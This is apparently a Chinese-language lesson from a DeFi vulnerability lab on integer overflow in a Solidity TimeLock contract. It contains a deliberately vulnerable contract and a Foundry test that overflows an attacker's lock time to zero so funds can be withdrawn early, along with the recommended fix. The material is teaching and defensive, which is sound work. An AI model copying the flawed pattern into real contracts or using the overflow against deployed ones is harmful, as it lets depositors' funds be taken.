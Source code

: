# 整数溢出
[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)  
**名称：** 整数溢出  
**描述：**  
TimeLock智能合约的代码存在一个缺陷，这个缺陷导致攻击者可以提前从TimeLock合约中提取存入的资金。该漏洞是因为increaseLockTime函数产生溢出，攻击者可以通过溢出来控制锁仓时间，这使攻击者能够在实际的锁仓时间到期之前就提取资金。  


**场景：**     
这个智能合约是为了充当时间保险库  
用户可以将资金存入合约，但是至少要等1周才能取出  
用户还可以在这1周锁仓时间的基础上延长锁仓时间


1. 假设Alice和Bob都有1个以太币 
2. 部署TimeLock合约  
3. Alice和Bob都向TimeLock合约存入1个以太币，他们需要等待1周才能取出存入的以太币  
4. Bob导致他的lockTime溢出，Alice因为时间锁还未到期，所以她不能取出她的存入的这1个以太币。  
5. 因为Bob的lockTime溢出为0了，所以他可以取出他刚刚存入的这1个以太币 

**发生什么了？**  
攻击导致TimeLock.lockTime溢出，并且使得攻击者能够在1周的锁仓时间之前就取出资金。  
Import: 低于0.8的Solidity版本中，没有SafeMath库  

**修复建议：**  
为了解决溢出问题，可以使用SafeMath库或者使用高于0.8的Solidity版本  


**TimeLock 合约：**  
```solidity
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // 漏洞
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Overflow.sol -vvvv  
```solidity
// 这个testOverflow 函数, 用于测试溢出漏洞
    function testOverflow() public {
        // 记录Alice的余额
        console.log("Alice balance", alice.balance);
        // 记录Bob的余额
        console.log("Bob balance", bob.balance);

        // 记录"Alice存入1个以太币"
        console.log("Alice deposit 1 Ether...");
        // 将消息发送者设置为Alice
        vm.prank(alice);
        // Alice向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Alice的新余额
        console.log("Alice balance", alice.balance);

        // 记录"Bob存入1个以太币"
        console.log("Bob deposit 1 Ether...");
        // 将消息发送者设置为Bob
        vm.startPrank(bob);
        // Bob向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);

    
        //漏洞利用：增加锁定时间，使其溢出并变为0。
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // 记录"Bob将成功取款，因为锁定时间已溢出"。
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob取款
        TimeLockContract.withdraw();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);
        // 停止Bob的攻击
        vm.stopPrank();

        // 记录Alice的攻击
        vm.prank(alice);
        // 记录"Alice将无法取款，因为锁定时间尚未到期"。
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        //尝试取款Alice的资金。由于锁定时间尚未到期，这应该会导致回滚。
        TimeLockContract.withdraw(); // 预期会回滚
    }
```  
**红色框：** TimeLock.lockTime发生溢出  
**紫色框：** 溢出已修复
![Alt text](image.png)